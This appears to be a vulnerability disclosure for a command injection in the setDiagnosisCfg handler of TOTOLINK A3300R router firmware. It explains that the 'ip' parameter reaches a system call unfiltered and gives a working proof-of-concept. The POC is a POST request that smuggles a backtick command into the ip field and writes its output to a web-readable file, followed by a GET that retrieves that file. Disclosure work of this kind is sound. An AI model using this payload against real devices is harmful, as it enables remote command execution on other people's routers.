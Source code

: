 #  A3300R setDiagnosisCfg Command Injection

verdor name: TOTOLINK

model: A3300R AC1200

version: V17.0.0cu.592_B20231030

firmware: https://www.totolink.tw/support_view/A3300R

![image-20241210182241481](1.assets/image-20241210182241481.png)

**Description**

The `ip` parameter is vulnerable to command injection when processing the `setDiagnosisCfg` request.

**Analyse**

The function `sub_4139B0` processes the `setDiagnosisCfg` request, retrieves the `ip` parameter from the request body, and passes it to the `CsteSystem` function without filtering.

![image-20241211110133000](3.assets/image-20241211110133000.png)

**poc**

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.100.2
Content-Length: 76
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.100.2
Referer: http://192.168.100.2/login.html
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"ip":"1.2.3.4`id>/web/3.txt`","num":"2","topicurl":"setDiagnosisCfg"}
```

![image-20241211105652703](3.assets/image-20241211105652703.png)

```
GET /3.txt HTTP/1.1
Host: 192.168.100.2
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

![image-20241211105721220](3.assets/image-20241211105721220.png)
